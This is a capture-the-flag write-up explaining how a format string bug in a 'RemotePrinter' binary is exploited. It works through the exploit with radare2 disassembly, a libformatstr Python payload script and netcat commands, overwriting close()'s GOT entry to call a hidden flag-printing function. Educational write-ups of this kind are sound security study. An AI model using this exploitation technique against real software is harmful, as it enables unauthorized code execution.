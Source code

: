 ### Solved by barrebas and superkojiman

This was a relatively easy one that barrebas and I solved at the same time. Let's examine the vulnerability first. We're given a binary called RemotePrinter. Running it prompts us for an IP address and a port to connect to, after which it waits to receive data from the "printer". We can simulate the printer using netcat and send back some data. In this case, we found that it was vulnerable to a format string attack:

```
# ./RemotePrinter 
This is a remote printer!
Enter IPv4 address:127.0.0.1
Enter port:6666
Thank you, I'm trying to print 127.0.0.1:6666 now!
AAAA.0xffa7179c.0x2000.(nil).(nil).(nil).(nil).0x41414141.0x2e70252e.0x252e7025.0x70252e70
```

It's clear that our format string can be found at offset 7. The simple solution was to overwrite a function's GOT pointer with one that we wanted. A closer examination of the binary using radare2 revealed a file called "flag.txt" in the string dump:

```
[0x08048ad0]> iz
.
.
.
vaddr=0x080489de paddr=0x000009de ordinal=008 sz=9 len=8 section=.rodata type=ascii string=flag.txt
vaddr=0x080489e7 paddr=0x000009e7 ordinal=009 sz=15 len=14 section=.rodata type=ascii string=YAY, FLAG: %s\n
```

Where's this being referenced from?

```
[0x00000000]> axt 0x080489de
data 0x8048875 push str.flag.txt in unknown function
```

Some function that wasn't being called by anything. Digging deeper:

```
[0x00000000]> pd@0x8048875
            0x08048875      68de890408     push str.flag.txt           ; "flag.txt" @ 0x80489de
            0x0804887a      e8e1fcffff     call sym.imp.fopen
            0x0804887f      83c410         add esp, 0x10
            0x08048882      8945f4         mov dword [ebp - 0xc], eax
            0x08048885      83ec04         sub esp, 4
            0x08048888      ff75f4         push dword [ebp - 0xc]
            0x0804888b      6a32           push 0x32                   ; '2'
            0x0804888d      8d45c2         lea eax, [ebp - 0x3e]
            0x08048890      50             push eax
            0x08048891      e85afcffff     call sym.imp.fgets
            0x08048896      83c410         add esp, 0x10
            0x08048899      83ec0c         sub esp, 0xc
            0x0804889c      ff75f4         push dword [ebp - 0xc]
            0x0804889f      e85cfcffff     call sym.imp.fclose
            0x080488a4      83c410         add esp, 0x10
            0x080488a7      83ec08         sub esp, 8
            0x080488aa      8d45c2         lea eax, [ebp - 0x3e]
            0x080488ad      50             push eax
            0x080488ae      68e7890408     push str.YAY__FLAG:__s_n    ; "YAY, FLAG: %s." @ 0x80489e7
            0x080488b3      e828fcffff     call sym.imp.printf
            0x080488b8      83c410         add esp, 0x10
            0x080488bb      90             nop
            0x080488bc      c9             leave
            0x080488bd      c3             ret
```

Basically this function opens "flag.txt", reads the contents, and prints it back out to stdout. We can find where the function starts by subtracting some bytes from 0x808875 and looking for the function prologue:

```
[0x00000200]> pd -10@0x8048875
|           0x0804885c      e85ffdffff     call sym.imp.close
|           0x08048861      83c410         add esp, 0x10
|           0x08048864      90             nop
|           ; JMP XREF from 0x08048842 (fcn.08048786)
|           ; JMP XREF from 0x08048813 (fcn.08048786)
|           ; JMP XREF from 0x080487b9 (fcn.08048786)
|           0x08048865      c9             leave
\           0x08048866      c3             ret
            0x08048867      55             push ebp
            0x08048868      89e5           mov ebp, esp
            0x0804886a      83ec48         sub esp, 0x48
            0x0804886d      83ec08         sub esp, 8
            0x08048870      68dc890408     push 0x80489dc
```

There it is, 0x08048867. Now the format string bug occurs after it receives data from the printer, and calls printf() on it. This happens here: 

```
|    |||    0x0804884d      50             push eax                     ; buf
|    |||    0x0804884e      e88dfcffff     call sym.imp.printf          ; printf(buf)
|    |||    0x08048853      83c410         add esp, 0x10
|    |||    0x08048856      83ec0c         sub esp, 0xc
|    |||    0x08048859      ff75f4         push dword [ebp - 0xc]
|    |||    0x0804885c      e85ffdffff     call sym.imp.close           ; close()
```

Since close() is called right after printf(), it was a good candidate for overwriting. The goal was to overwrite close()'s GOT pointer to point to 0x08048867, which would print out the flag. 


#### superkojiman's solution
I accomplished this with [libformatstr](https://github.com/hellman/libformatstr): 

```python
#!/usr/bin/env python

from libformatstr import *

win_addr = 0x8048867
close_got = 0x08049c80

p = FormatStr(100)
p[close_got] = win_addr

buf = ""
buf += p.payload(7)
open("in.txt", "w").write(buf)
```

This creates a file with the payload necessary to do the overwrite. I ran a netcat instance on my VPS that would feed this payload to RemotePrinter.

```
root@vps:~# nc -lvp 6666 < in.txt
listening on [any] 6666 ...
```

I then connected to it from the CTF's RemotePrinter: 

```
# nc 188.166.133.53 12377
This is a remote printer!
Enter IPv4 address:192.99.xxx.xxxx
Enter port:6666
Thank you, I'm trying to print 192.99.xxx.xxx:6666 now!
.
.
.
  AAA������������������������������������������������������������������YAY, FLAG: IW{YVO_F0RmaTt3d_RMT_Pr1nT3R}
``` 

Win! The flag is IW{YVO_F0RmaTt3d_RMT_Pr1nT3R}
